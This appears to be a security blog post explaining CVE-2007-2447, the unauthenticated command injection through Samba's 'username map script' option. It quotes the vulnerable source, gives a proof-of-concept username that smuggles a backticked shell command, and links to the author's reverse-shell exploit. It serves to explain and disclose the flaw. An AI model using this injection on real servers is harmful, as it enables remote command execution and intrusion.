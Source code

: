 ```yaml
---
title: "CVE-2007-2447 - Samba usermap script"
date: 2018-08-03T22:00:06+01:00
draft: false
index: true
tags: ["cve", "samba", "rce"]
categories: ["exploit", "security"]
comments: true
highlight: true
---
```


Samba 3.0.0 - 3.0.25rc3 are subject for Remote Command Injection Vulnerability (CVE-2007-2447), allows remote attackers to execute arbitrary commands by specifying a username containing shell meta characters.

<!--more-->
### TL;DR
The root cause is passing unfiltered user input provided via MS-RPC
calls to /bin/sh when invoking non-default ``"username map script"`` configuration option in `smb.conf`, so no authentication is needed to exploit this vulnerability.

### Source

> `./source/lib/username.c`

```
/* first try the username map script */

if ( *cmd ) {
        char **qlines;
        pstring command;
        int numlines, ret, fd;

        pstr_sprintf( command, "%s \"%s\"", cmd, user );

        DEBUG(10,("Running [%s]\n", command));
        ret = smbrun(command, &fd);
        DEBUGADD(10,("returned [%d]\n", ret));

        if ( ret != 0 ) {
                if (fd != -1)
                        close(fd);
                return False;
        }

```
The ***smbrun()*** function is responsible for executing system commands!

> `./source/lib/smbrun.c`

```

#ifndef __INSURE__
        /* close all other file descriptors, leaving only 0, 1 and 2. 0 and
           2 point to /dev/null from the startup code */
        {
        int fd;
        for (fd=3;fd<256;fd++) close(fd);
        }
#endif

        execl("/bin/sh","sh","-c",cmd,NULL);  

        /* not reached */
        exit(82);
        return 1;
}

```
### PoC
To exploit this vulnerability, all you need to do is to change the username for authentication to :

> ``` username = "/=`nohup mkdir /tmp/foo`" ```

In this example we just execute a **mkdir** command to create a folder in the /tmp directory.
</br>
For educational/research purposes I create a python script to exploit this vulnerability and gain a reverse shell.
</br>
[https://github.com/amriunix/CVE-2007-2447](https://github.com/amriunix/CVE-2007-2447)
### Screenshot
{{< figure src="/img/cve-2007-2447-samba-usermap-script/poc.png" width="100%" >}}
